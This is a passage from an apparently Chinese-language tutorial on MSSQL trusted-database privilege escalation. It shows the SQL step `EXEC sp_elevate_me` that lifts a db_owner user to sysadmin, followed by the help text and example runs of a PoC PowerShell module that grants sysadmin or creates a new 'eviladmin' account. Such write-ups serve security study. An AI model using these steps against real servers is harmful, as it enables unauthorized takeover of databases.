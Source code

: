 3.提权至sysadmin

    USE MyTestdb01
    EXEC sp_elevate_me

![12.png](./resource/Mssql受信用数据库提权/media/rId42.png)

再次检查权限

![13.png](./resource/Mssql受信用数据库提权/media/rId43.png)

已经是sysadmin权限了，查看用户的属性也可以看到已经到sysadmin权限了

![14.png](./resource/Mssql受信用数据库提权/media/rId44.png)

这里可以利用脚本已经一键利用

### poc

> Invoke-SqlServer-Escalate-Dbowner.psm1

    function Invoke-SqlServer-Escalate-DbOwner
    {
        <#
        .SYNOPSIS
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server. 

        .DESCRIPTION
           This script can be used escalate privileges from a db_owner to a sysadmin on SQL Server.This is 
           possible when a user has the db_owner role in a trusted database owned by a sysadmin .  
           This script can accept SQL Credentials or use the current user's trusted connection.

        .EXAMPLE
           Getting sysadmin as a user that has the db_owner role in a trusted database owned by a sysadmin.

           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS
           [*] Attempting to Connect to SQLServer\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] 3 accessible databases found.
           [*] Checking if current user has db_owner role in any of them...
           [*] myappuser as db_owner role in 2 databases.
           [*] Attempting to evelate myappuser to sysadmin via master database...
           [*] Success! - myappuser is now a sysadmin.
           [*] All done.

        .EXAMPLE
           Creating new sysadmin, using a user that has the db_owner role in a trusted database owned by a sysadmin.
           
           PS C:\> Invoke-SqlServer-Escalate-DbOwner -SqlUser myappuser -SqlPass MyPassword! -SqlServerInstance SQLServer1\SQLEXPRESS -newuser eviladmin -newPass MyPassword!
           [*] Attempting to Connect to SQLServer1\SQLEXPRESS as myappuser...
           [*] Connected.
           [*] Enumerating accessible trusted databases owned by sysadmins...
           [*] Found 2 trusted databases owned by a sysadmin.
           [*] Checking if myappuser the has db_owner role in any of them...
           [*] myappuser has db_owner role in 1 of the databases.
           [*] Attempting to create and add eviladmin to the sysadmin role via the MyAppDb database...
           [*] Success! - eviladmin is now a sysadmin.
           [*] All done.

